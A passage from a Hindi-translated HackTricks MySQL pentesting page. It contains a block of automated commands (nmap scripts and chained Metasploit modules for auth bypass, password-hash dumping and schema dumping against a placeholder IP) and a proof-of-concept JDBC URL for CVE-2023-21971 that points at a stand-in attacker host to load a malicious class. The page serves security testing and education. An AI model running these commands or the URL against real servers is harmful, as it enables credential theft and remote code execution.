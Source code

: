 {{#endtab}}
{{#endtabs}}

## HackTricks स्वचालित कमांड
```
Protocol_Name: MySql    #Protocol Abbreviation if there is one.
Port_Number:  3306     #Comma separated if there is more than one.
Protocol_Description: MySql     #Protocol Abbreviation Spelled out

Entry_1:
Name: Notes
Description: Notes for MySql
Note: |
MySQL is a freely available open source Relational Database Management System (RDBMS) that uses Structured Query Language (SQL).

https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-mysql.html

Entry_2:
Name: Nmap
Description: Nmap with MySql Scripts
Command: nmap --script=mysql-databases.nse,mysql-empty-password.nse,mysql-enum.nse,mysql-info.nse,mysql-variables.nse,mysql-vuln-cve2012-2122.nse {IP} -p 3306

Entry_3:
Name: MySql
Description: Attempt to connect to mysql server
Command: mysql -h {IP} -u {Username}@localhost

Entry_4:
Name: MySql consolesless mfs enumeration
Description: MySql enumeration without the need to run msfconsole
Note: sourced from https://github.com/carlospolop/legion
Command: msfconsole -q -x 'use auxiliary/scanner/mysql/mysql_version; set RHOSTS {IP}; set RPORT 3306; run; exit' && msfconsole -q -x 'use auxiliary/scanner/mysql/mysql_authbypass_hashdump; set RHOSTS {IP}; set RPORT 3306; run; exit' && msfconsole -q -x 'use auxiliary/admin/mysql/mysql_enum; set RHOSTS {IP}; set RPORT 3306; run; exit' && msfconsole -q -x 'use auxiliary/scanner/mysql/mysql_hashdump; set RHOSTS {IP}; set RPORT 3306; run; exit' && msfconsole -q -x 'use auxiliary/scanner/mysql/mysql_schemadump; set RHOSTS {IP}; set RPORT 3306; run; exit'

```
## 2023-2025 Highlights (नया)

### JDBC `propertiesTransform` deserialization (CVE-2023-21971)
Connector/J <= 8.0.32 से एक हमलावर जो **JDBC URL** को प्रभावित कर सकता है (उदाहरण के लिए, तीसरे पक्ष के सॉफ़्टवेयर में जो कनेक्शन स्ट्रिंग के लिए पूछता है) वह `propertiesTransform` पैरामीटर के माध्यम से *क्लाइंट* पक्ष पर मनचाहे क्लास को लोड करने के लिए अनुरोध कर सकता है। यदि क्लास-पाथ पर मौजूद एक गैजेट लोड करने योग्य है, तो इसका परिणाम **JDBC क्लाइंट के संदर्भ में दूरस्थ कोड निष्पादन** में होता है (पूर्व-प्रमाणित, क्योंकि कोई मान्य क्रेडेंशियल की आवश्यकता नहीं होती)। एक न्यूनतम PoC इस तरह दिखता है:
```java
jdbc:mysql://<attacker-ip>:3306/test?user=root&password=root&propertiesTransform=com.evil.Evil
```
`Evil.class` चलाना कमजोर एप्लिकेशन के क्लास-पाथ पर इसे उत्पन्न करने या एक धोखेबाज़ MySQL सर्वर को एक दुर्भावनापूर्ण सीरियलाइज्ड ऑब्जेक्ट भेजने की अनुमति देने जितना आसान हो सकता है। यह समस्या Connector/J 8.0.33 में ठीक की गई थी - ड्राइवर को अपडेट करें या `propertiesTransform` को अनुमति सूची पर स्पष्ट रूप से सेट करें।  
(विवरण के लिए Snyk लेख देखें)
